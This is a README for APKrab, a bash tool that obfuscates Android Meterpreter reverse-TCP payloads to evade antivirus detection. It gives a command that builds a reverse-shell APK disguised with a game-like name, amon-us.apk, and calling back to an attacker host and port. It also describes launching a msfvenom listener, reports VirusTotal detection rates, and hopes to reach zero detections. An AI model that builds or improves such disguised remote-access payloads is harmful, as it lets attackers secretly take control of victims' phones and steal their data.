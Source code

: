 # Dependencies
To use APKrab you first need to install apktool and default-jdk

# APKrab
APKrab is a dummy bash script to obfuscate android meterpreter by mixing names and permissions in AndroidManifest.xml and other files and directories
![Preview](https://cdn.rawgit.com/whoisML/APKrab/master/vmplayer_R3kyjZHvkA.jpg)

# Usage
First we must give execution permissions with chmod +x APKrab.sh
Then we can do for example:
./APKrab.sh -p android/meterpreter/reverse_tcp -H 10.0.0.16 -P 7777 -o amon-us.apk

APKrab also has default options we can use them with:
./APKrab.sh -g
![Preview](https://cdn.rawgit.com/whoisML/APKrab/master/vmplayer_ZW2I2Xya03.jpg)

At the end APKrab will ask to generate a msfvemon listener if so then it will ask to launch it
![Preview](https://cdn.rawgit.com/whoisML/APKrab/master/vmplayer_Icsbs5mvuD.jpg)

# virustotal results (DONT UPLOAD YOUR SAMPLES TO VIRUSTOTAL)
In this example we hit 16/63 in virustotal so hope with the time and your modifications we can hit 0 flagged
